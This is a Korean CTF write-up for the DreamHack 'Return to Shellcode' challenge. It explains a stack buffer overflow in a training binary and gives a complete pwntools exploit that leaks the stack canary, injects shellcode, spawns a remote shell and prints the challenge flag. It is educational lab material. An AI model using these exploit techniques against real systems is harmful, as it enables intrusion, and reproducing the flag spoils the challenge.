 # [DreamHack] Return to Shellcode

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Return to Shellcode에서 실습하는 문제입니다.
>
> Release: [Return to Shellcode.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8546948/Return.to.Shellcode.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159587296-37b7ac13-fe0d-4558-9f53-e5e4694f09ad.png)

## Analysis

```c
int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

스택에 실행 권한이 있고, `read(0, buf, 0x100)`와 `gets(buf)`에서 각각 BOF가 발생한다. 첫 번째 BOF로 canary를 leak할 수 있고, 두 번째 BOF로 `buf`에 셸코드를 저장해놓고 `main()`의 return address를 `buf`의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

### Leak Canary

Canary 이전까지를 모두 0 없이 채우면 `buf`의 내용이 출력될 때 canary가 같이 leak되어 나오게 된다.

```python
# leak canary
r.sendafter('Input: ', 'a' * 0x59)
r.recvuntil('Your input is \'' + 'a' * 0x59)
canary = u64(r.recvn(7).rjust(8, b'\x00'))
```

### Return to Shellcode

`buf`에 셸코드를 넣고, `main()`의 return address를 `buf`의 주소로 덮는다.

```python
# return to shellcode
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x58, b'a')
payload += p64(canary) # canary
payload += b'a' * 0x8 # sfp
payload += p64(buf) # return address
r.sendlineafter('Input: ', payload)
```

### Full Exploit

```python
from pwn import *
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('./release/r2s')
else:
    r = remote('host2.dreamhack.games', 15215)

r.recvuntil('Address of the buf: 0x')
buf = int(r.recvline()[:-1], 16)

# leak canary
r.sendafter('Input: ', 'a' * 0x59)
r.recvuntil('Your input is \'' + 'a' * 0x59)
canary = u64(r.recvn(7).rjust(8, b'\x00'))

# return to shellcode
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x58, b'a')
payload += p64(canary) # canary
payload += b'a' * 0x8 # sfp
payload += p64(buf) # return address
r.sendlineafter('Input: ', payload)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host2.dreamhack.games on port 15215: Done
[*] Switching to interactive mode
$ cat flag
DH{333eb89c9d2615dd8942ece08c1d34d5}
```